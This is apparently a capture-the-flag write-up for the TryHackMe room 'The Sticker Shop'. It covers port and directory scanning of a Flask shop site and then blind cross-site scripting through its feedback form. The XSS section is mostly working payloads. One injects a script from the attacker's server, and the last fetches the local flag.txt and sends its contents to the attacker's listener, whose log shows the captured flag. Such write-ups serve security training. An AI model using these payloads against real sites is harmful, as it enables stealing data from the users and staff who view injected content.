

# TryHackMe-The Sticker Shop

**Scope:**

- Cross-Site Scripting (XSS)

**Keywords:**

- Directory Scan
- Cross-Site Scripting (XSS) Methods

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://stickershop.thm:8080/ -e -x php,txt,html -b 403,404,500,501,502,503 --random-agent -t 50`

**System Commands:**

- `'"><script src=http://10.2.37.37:8011/testfile.txt></script>`
- ``

### Laboratory Environment

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```jsx
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.8.10
|     Date: Mon, 02 Dec 2024 16:50:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1655
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Cat Sticker Shop</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     margin: 0;
|     padding: 0;
|     header {
|     background-color: #333;
|     color: #fff;
|     text-align: center;
|     padding: 10px;
|     header ul {
|     list-style: none;
|     padding: 0;
|     header li {
|     display: inline;
|     margin-right: 20px;
|     header a {
|     text-decoration: none;
|     color: #fff;
|     font-weight: bold;
|     .content {
|     padding: 20px;
|_    .product {
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://stickershop.thm:8080`

```jsx
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 02 Dec 2024 16:50:53 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1655
Connection: close

<body>
    <header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
    <div class="content">
        <h1>Welcome to the Cat Sticker Shop!</h1>
        <div class="product">
            
            <h2>Cat Sticker 1</h2>
            <p>Price: $2.99</p>
        </div>
        <div class="product">
            
            <h2>Cat Sticker 2</h2>
            <p>Price: $3.99</p>
        </div>

    </div>
    <br>&nbsp;&nbsp;We only sell stickers at our physical store. Please feel free to stop by!
</body>
</html>
```

> **Directory Scan & Endpoint Control Phase**
> 

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://stickershop.thm:8080/ -e -x php,txt,html -b 403,404,500,501,502,503 --random-agent -t 50`

```jsx
http://stickershop.thm:8080/flag.txt             (Status: 401) [Size: 25]
```

`curl -iLX GET -D response.txt http://stickershop.thm:8080/submit_feedback`

```jsx
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 02 Dec 2024 16:54:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2360
Connection: close

        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
<body>
    <center>
        <h2>Please submit your feedback regarding your product</h2>
        <form action="/submit_feedback" method="POST">
            <div class="container">

                <textarea placeholder="Customer feedback" name="feedback" rows="5" required></textarea><br>
                <button type="submit">Submit</button><br>
                <br>
            </div>
        </form>
    </center>
</body>
</html>
```

`curl -iLX $'POST' --data-binary $'feedback=whoami' $'http://stickershop.thm:8080/submit_feedback'` 

```jsx
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 02 Dec 2024 16:56:54 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2427
Connection: close

        <h2>Please submit your feedback regarding your product</h2>
        <form action="/submit_feedback" method="POST">
            <div class="container">

                <textarea placeholder="Customer feedback" name="feedback" rows="5" required></textarea><br>
                <button type="submit">Submit</button><br>
                Thanks for your feedback! It will be evaluated shortly by our staff<br>
            </div>
        </form>
    </center>
</body>
</html>  
```



> **Cross-Site Scripting (XSS) Phase**
> 

`python3 -m http.server 8000`

```jsx
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`nano testfile.txt`

```jsx
HELLO_WORLD
```


**PAYLOAD:**

```jsx

```

```jsx
10.10.99.16 - - [02/Dec/2024 12:28:52] "GET /testfile.txt HTTP/1.1" 200 -
```

`python3 -m http.server 8011`

```jsx
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...
```


**PAYLOAD:**

```jsx
'"><script src=http://10.2.37.37:8011/testfile.txt></script>
```

```jsx
10.10.99.16 - - [02/Dec/2024 12:30:11] "GET /testfile.txt HTTP/1.1" 200 -
```


**PAYLOAD:**

```jsx
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.2.37.37:8011/?flag=' + encodeURIComponent(data));
    });
</script>
```

```jsx
10.10.99.16 - - [02/Dec/2024 12:34:47] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```